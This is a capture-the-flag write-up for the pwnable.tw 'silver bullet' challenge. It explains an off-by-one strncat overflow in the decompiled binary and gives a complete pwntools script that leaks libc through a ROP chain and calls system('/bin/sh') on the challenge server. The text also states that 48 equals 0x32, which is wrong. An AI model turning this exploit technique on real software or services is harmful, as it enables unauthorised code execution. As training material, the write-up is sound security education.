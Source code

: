 +++
title = "pwnable.tw - silver bullet"
date = 2020-02-01T22:31:07.835Z
updated = 2020-02-04T19:12:43.206Z
aliases = ["/posts/5d0814ab8487900bf40e47d9-pwnabletw-silver-bullet"]
[taxonomies]
tags = ['pwnable.tw', 'binary-exploitation', 'return-oriented-programming', 'pwntools']
categories = ["ctf-writeups"]
+++

# Challenge
> Please kill the werewolf with silver bullet!
>
> `nc chall.pwnable.tw 10103`


We are also provided a binary and the libc used on the server.

# Solution
When running the binary, we can see that we have four options:

![](5d0810548487900bf40e47d5.png)

The provided binary was not stripped, so reversing was easy with Ghidra.
```c
void create_bullet(bullet *bullet)
{
  size_t size;
  
  if (bullet->description[0] == '\0') {
    printf("Give me your description of bullet :",0);
    read_input((char *)bullet,0x30);
    size = strlen((char *)bullet);
    printf("Your power is : %u\n",size);
    bullet->power = size;
    puts("Good luck !!");
  }
  else {
    puts("You have been created the Bullet !");
  }
  return;
}
```

<!-- more -->

The `create_bullet` function simply reads in 48 (0x32) bytes. Then, the power of the bullet is set to the length of the 
input. Finally, both the power and the input are store in a struct.

&nbsp;

I defined ` bullet` as the following struct:
```c
struct bullet {
    char[48] description;
    uint power;
}
```

```c
void power_up(bullet *bullet)

{
  size_t new_power;
  uint power;
  char input_buf [48];
  
  memset(input_buf,0,0x30);
  if (bullet->description[0] == '\0') {
    puts("You need create the bullet first !");
  }
  else {
    if (bullet->power < 0x30) {
      printf("Give me your another description of bullet :");
      read_input(input_buf,0x30 - bullet->power);
      strncat((char *)bullet,input_buf,0x30 - bullet->power);
      new_power = strlen(input_buf);
      power = bullet->power + new_power;
      printf("Your new power is : %u\n",power);
      bullet->power = power;
      puts("Enjoy it !");
    }
    else {
      puts("You can\'t power up any more !");
    }
  }
  return;
}
```
The `power_up` function reads another 48 bytes as input, then it concatenates it to the stored description and updates 
the power of the bullet. However, there is a hard-to-notice issue with this code. 
[strncat(dest, src, n)](https://linux.die.net/man/3/strncat) writes `n+1` bytes to the destination buffer. The last byte 
is the terminating null byte. If we were to give 48 bytes as input to power_up, then it would overwrite the power of the 
bullet. Now, we can write upto 48 bytes directly onto the stack, and we can use return-oriented-programming to leak a 
libc address and call `system`.

# Script
```python
from pwn import *

elf = ELF('./silver_bullet')
libc = ELF('./libc_32.so.6')

context.binary = elf

r = remote('chall.pwnable.tw', 10103)


def skip_menu():
    r.recvuntil('+++++++++++++++++++++++++++')
    r.recvuntil('+++++++++++++++++++++++++++')
    r.recvuntil('+++++++++++++++++++++++++++')


def create_bullet(d):
    r.recvuntil(' :')
    r.write('1')
    r.recvuntil(' :')
    r.write(d)
    skip_menu()


def power_up(d):
    r.recvuntil(' :')
    r.write('2')
    r.recvuntil(' :')
    r.write(d)
    skip_menu()


def beat():
    r.recvuntil(' :')
    r.write('3')


rop = ROP(elf)
rop.call('puts', [elf.got['puts']])
rop.call('main')

print(rop.dump())

create_bullet('A' * 0x2F)
power_up('A')
power_up('A' * 7 + str(rop))

beat()
skip_menu()
beat()

r.recvuntil('!!\x0a')
ADDR_PUTS = u32(r.recv(4))

LIBC_BASE = ADDR_PUTS - libc.symbols['puts']
ADDR_BINSH = libc.search('/bin/sh').next() + LIBC_BASE
ADDR_SYSTEM = libc.symbols['system'] + LIBC_BASE

log.info('puts address: ' + hex(ADDR_PUTS))
log.info('Libc base address: ' + hex(LIBC_BASE))
log.info('System address: ' + hex(ADDR_SYSTEM))
log.info('`/bin/sh` address: ' + hex(ADDR_BINSH))

rop = ROP(elf)
rop.call(ADDR_SYSTEM, [ADDR_BINSH])

create_bullet('A' * 0x2F)
power_up('A')

power_up('A' * 7 + str(rop))

print(rop.dump())

beat()
skip_menu()
beat()

r.interactive()
```

![](5d08149a8487900bf40e47d7.png)
